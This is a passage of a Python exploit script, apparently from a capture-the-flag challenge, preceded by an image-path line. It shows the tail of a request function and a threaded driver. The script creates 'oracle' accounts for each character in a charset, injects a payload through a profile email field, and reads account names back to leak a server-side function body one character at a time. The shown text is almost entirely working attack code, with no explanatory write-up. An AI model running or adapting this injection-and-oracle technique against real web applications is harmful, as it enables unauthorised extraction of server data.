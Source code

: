 ```py
  session = requests.session()

  name = "account_get_" + str(index)

  session.post(LOGIN_URL, data={
    "username": name,
    "password": name
  })
  session.post(EDIT_URL, data={
    "email": payload
  })

  resp = requests.get(QUERY_URL + name)
  if resp.status_code != 200:
    print(resp.status_code)
    print(resp.text)
    return '#'

  if resp.text == 'null':
    print('Failed')
    return '#'

  data = json.loads(resp.text)
  char = data["username"].replace('account_oracle_', '')
  return char

if SKIP_CREATE_ORACLE == False:
  print("create oracle account...")
  total = len(charset)
  current = 0
  with concurrent.futures.ThreadPoolExecutor(max_workers=MAX_WORKERS) as executor:
      futures = {executor.submit(create_oracle, c): c for c in charset}
      for future in concurrent.futures.as_completed(futures):
          current += 1
          if current % 10 == 0 or current == total:
            print(f"Progress: {current}/{total}")

print("leaking function body")
length = 100
ans = [' '] * length
with concurrent.futures.ThreadPoolExecutor(max_workers=15) as executor:
    futures = {executor.submit(leak_char, i): i for i in range(length)}
    for future in concurrent.futures.as_completed(futures):
        index = futures[future]
        data = future.result()
        ans[index] = data
        print("".join(ans))



```
